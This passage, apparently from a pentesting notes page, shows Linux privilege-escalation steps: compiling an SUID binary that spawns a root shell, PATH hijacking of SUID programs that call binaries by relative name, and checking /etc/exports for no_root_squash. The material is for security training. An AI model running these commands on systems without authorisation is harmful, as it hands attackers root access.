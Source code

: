 {% code overflow="wrap" lineNumbers="true" %}
```bash
gcc path.c -o path -w -static
chmod u+s path
ls -l     #To check if it has a permission for the user
```
{% endcode %}

***

* Create a file to ask for a shell and give it permissions

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo "/bin/bash" > root #Asking for a shell
chmod 777 root
ls -l    #To check it has all permissions
```
{% endcode %}

{% hint style="info" %}
Note that it is the same executable we called previously on the _C_ script
{% endhint %}

***

* Run the path script to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
./path
#This will return a root shell
```
{% endcode %}

***

* In other cases, when an application with SUID permissions is calling a binary and isn't specifying its absolute path, we can just create an arbitrary file with the same name, and add it to the path

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo "/bin/bash" > $binaryName #Arbitraryly to obtain a shell
chmod +x $binaryName
export PATH=/home/user:$PATH #Specifying where our file was created
# Then run the application with the SUID permissions
```
{% endcode %}

## <mark style="color:orange;">Abusing the NFS misconfiguration</mark>

* Check the NFS configuration, and search for the _no\_root\_squash_ value

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/exports
#Example results
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
{% endcode %}
